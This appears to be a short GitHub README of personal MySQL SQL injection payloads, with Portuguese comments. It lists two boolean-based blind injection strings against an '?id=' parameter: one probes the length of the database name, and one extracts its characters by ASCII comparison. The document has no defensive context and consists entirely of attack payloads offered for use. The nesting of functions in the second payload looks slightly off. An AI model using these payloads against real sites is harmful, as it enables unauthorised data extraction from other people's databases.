 # Minhas-payload-sql-injection

# Esse repositório não é cheat sheet de sql injection.

#==============Payload MySQL==============

#EXTRAINDO número de caracteres DA DATABASE.
  ?id=1' AND LENGTH(DATABASE()) > 2 --+
  
#EXTRAINDO OS CARACTERES DO BANCO DE DADOS EM ASCII.
  ?id=1' AND substring(ascii(DATABASE()),1,8) >= 115--+-